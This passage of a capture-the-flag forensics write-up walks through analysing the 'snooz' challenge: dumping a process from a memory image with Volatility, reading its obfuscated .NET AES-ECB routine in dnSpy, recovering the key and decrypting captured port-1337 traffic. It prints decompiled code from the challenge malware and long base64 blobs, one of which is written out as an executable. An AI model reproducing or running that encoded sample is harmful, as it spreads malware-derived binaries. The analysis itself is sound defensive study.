lbWFzLW1pY3Jvc29mdC1jb206YXNtLnYyIj4NCiAgICA8c2VjdXJpdHk+DQogICAgICA8cmVxdWVzdGVkUHJpdmlsZWdlcyB4bWxucz0idXJuOnNjaGVtYXMtbWljcm9zb2Z0LWNvbTphc20udjMiPg0KICAgICAgICA8cmVxdWVzdGVkRXhlY3V0aW9uTGV2ZWwgbGV2ZWw9ImFzSW52b2tlciIgdWlBY2Nlc3M9ImZhbHNlIi8+DQogICAgICA8L3JlcXVlc3RlZFByaXZpbGVnZXM+DQogICAgPC9zZWN1cml0eT4NCiAgPC90cnVzdEluZm8+DQo8L2Fzc2VtYmx5Pg0KAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAMAAAA0DMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

out = open("download.exe", "wb")
out.write(base64.b64decode(a))
```

<figure><figcaption></figcaption></figure>

Open the executable using dnSpy.

<figure><figcaption></figcaption></figure>

So the original executable name should be snooz.exe. Lets check available process on memory dump.

```
python .\vol.py -f .\ctf\akasec\snooz\snooz_chall\memdump.mem windows.pslist
```

<figure><figcaption></figcaption></figure>

We can see on image above that there is snooz.exe with PID 3200. Dump the executable using command below

```
python .\vol.py -f .\ctf\akasec\snooz\snooz_chall\memdump.mem -o .\ctf\akasec\snooz\ windows.dumpfiles --pid 3200
```

Open file.0xa38425992e50.0xa384269f2150.ImageSectionObject.snooz.exe.img using dnSpy. Look at class a.

<pre class="language-csharp" data-title="a.b" data-line-numbers><code class="lang-csharp">private static byte[] b(byte[] A_0, string A_1)
	{
		Aes aes = Aes.Create();
		byte[] result;
		try
		{
			&#x3C;Module>.i = 2081625616;
			SymmetricAlgorithm symmetricAlgorithm = aes;
			Encoding utf = Encoding.UTF8;
			int r = -1871252905;
			&#x3C;Module>.m = -1437277352;
			&#x3C;Module>.r = r;
<strong>			symmetricAlgorithm.Key = utf.GetBytes(A_1);
</strong>			SymmetricAlgorithm symmetricAlgorithm2 = aes;
<strong>			CipherMode mode = CipherMode.ECB;
</strong>			&#x3C;Module>.q = -1852116043;
			&#x3C;Module>.e = null;
<strong>			symmetricAlgorithm2.Mode = mode;
</strong>			&#x3C;Module>.l = -1410905245;
			ICryptoTransform cryptoTransform;
			object c = cryptoTransform;
			&#x3C;Module>.k = 1845842485;
			&#x3C;Module>.c = c;
			SymmetricAlgorithm symmetricAlgorithm3 = aes;
			PaddingMode padding = PaddingMode.None;
			object h = null;
			&#x3C;Module>.b = null;
			&#x3C;Module>.h = h;
			object d = &#x3C;Module>.c(Type.EmptyTypes.Length + 8801, sizeof(uint) + 9765, sizeof(float) + 89);
			bool flag;
			&#x3C;Module>.d = flag;
			&#x3C;Module>.d = d;
			symmetricAlgorithm3.Padding = padding;
			&#x3C;Module>.i = 1308380089;
			ICryptoTransform cryptoTransform2 = aes.CreateDecryptor();
			&#x3C;Module>.m = -1557401652;
			cryptoTransform = cryptoTransform2;
			try
			{
				&#x3C;Module>.p = 1203310366;
				ICryptoTransform cryptoTransform3 = cryptoTransform;
				int inputOffset = 0;
				object obj = aes;
				&#x3C;Module>.o = -2051646939;
				global::b.b = obj;
				result = cryptoTransform3.TransformFinalBlock(A_0, inputOffset, A_0.Length);
			}
			finally
			{
				ICryptoTransform cryptoTransform4 = cryptoTransform;
				object obj2 = null;
				&#x3C;Module>.a = result;
				global::b.b = 1876936332;
				flag = (cryptoTransform4 == obj2);
				if (!flag)
				{
					cryptoTransform.Dispose();
				}
				&#x3C;Module>.o = -1978466511;
			}
		}
		finally
		{
			ICryptoTransform cryptoTransform;
			object c2 = cryptoTransform;
			object obj3 = null;
			&#x3C;Module>.n = -1932913121;
			&#x3C;Module>.a = obj3;
			&#x3C;Module>.f = 1957620381;
			&#x3C;Module>.c = c2;
			&#x3C;Module>.q = -1950879357;
			Aes aes2 = aes;
			object obj4 = null;
			object h2 = aes;
			bool flag;
			&#x3C;Module>.a = flag;
			&#x3C;Module>.h = h2;
			global::b.b = obj4;
			object obj5 = null;
			object h3 = null;
			&#x3C;Module>.r = 1809257038;
			&#x3C;Module>.h = h3;
			global::b.a = cryptoTransform;
			&#x3C;Module>.i = -563903361;
			flag = (aes2 == obj5);
			&#x3C;Module>.f = 1818084011;
			if (!flag)
			{
				((IDisposable)aes).Dispose();
			}
		}
		&#x3C;Module>.m = 796469985;
		&#x3C;Module>.o = -1980982856;
		return result;
	}
</code></pre>

* So it use AES as the encryption algorithm with mode ECB. For the key the value is from the second argument.

Through analyze feature we can see which line of code that call the a.b function.

```csharp
byte[] array5 = global::a.b(array4, <Module>.c(num6, num7, num8));
```

So the key is \<Module>.c(num6, num7, num8), lets take a look on \<Module>.c

<pre class="language-csharp"><code class="lang-csharp">internal static string c(int A_0, int A_1, int A_2)
	{
		A_0 += 593;
		Assembly executingAssembly = Assembly.GetExecutingAssembly();
		A_1 -= 331;
<strong>		Stream manifestResourceStream = executingAssembly.GetManifestResourceStream("resource");
</strong>		int num = A_0 ^ A_1;
		num = num * 17 / 27;
		manifestResourceStream.Seek((long)(7 + num), SeekOrigin.Begin);
		byte[] array = new byte[8];
		manifestResourceStream.Read(array, 0, 4);
		int num2 = (BitConverter.ToInt32(array, 0) ^ 2100157544) - 100;
		manifestResourceStream.Read(array, 0, 4);
		int num3 = BitConverter.ToInt32(array, 0) - 5 ^ 485648943;
		manifestResourceStream.Seek((long)num2, SeekOrigin.Begin);
		array = new byte[num3];
		manifestResourceStream.Read(array, 0, num3);
		for (int i = 0; i &#x3C; array.Length; i++)
		{
<strong>			array[i] = (byte)((int)array[i] ^ A_2);
</strong>		}
		return Encoding.UTF8.GetString(array);
	}
</code></pre>

* Basically it just do xor with data in resource named "resource". A\_2 is static value and the size of each value in array is 1 byte. So in this case we can just search the value for A\_2 then iterate on all data in "resource".

```csharp
num8 = ((num9 + (q << 20) + 483840 == (int)((uint)(~(uint)(q * 1073741824)) >> 17)) ? (Type.EmptyTypes.Length + -1963321438) : (Type.EmptyTypes.Length + 182));
```

So there is two possible value for num8, (Type.EmptyTypes.Length + -1963321438) or (Type.EmptyTypes.Length + 182). Type.EmptyTypes.Length is 0 (we can validate it through running the code). So the possibility is negative value or 182. 182 looks like legit value because it is 1 byte so lets try to iterate the resource using 182 as A\_2.

```python
from pwn import xor

f = open("resources.dump", "rb").read()
key = b"\xb6" * 16
for i in range(0, len(f) - 16):
	print(i, xor(f[i:i+16], key))
```

<figure><figcaption></figcaption></figure>

There is suspicious string that looks like a key which is at index 315. On function a.a we can see that the executable listen at port 1337. So lets open the pcap again and filter for port 1337.

```csharp
TcpListener tcpListener = new TcpListener(IPAddress.Any, 1337);
```

<figure><figcaption></figcaption></figure>

```python
from Crypto.Cipher import AES

list_ct = ["12c6b9acfc4f81810dd21f652bbfd6af", "6f3171b1be6ae86b058cbee8887f29a3", "61d21ef8f12ff0594c4d217a3feef8a7d993e4c7bb1fea531af0e6259c4b466629e89109ed1d5ba3f3534dacc171266613ae8d24b73bef16426d079dd1d630011899962bd6e1cf2e574ebce9cc224f626fc58fea72add0be454ab6294fe2df119cce1284440e409fc07aa482de82a1b2", "0e449b0133eed2e00a240569c4650ffa"]
key = b"fr33___p4l3571n3"
cipher = AES.new(key, AES.MODE_ECB)
for ct in list_ct:
	print(cipher.decrypt(bytes.fromhex(ct)))
```

<figure><figcaption></figcaption></figure>

"pastecode" mentioned on the text and there is password also "5n00zm3m3rbr0z". Because i can't find the pastecode link i tried to do simple grep string on the memory dump.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Decode the base64 value then write it to file.

```python
import base64
a = "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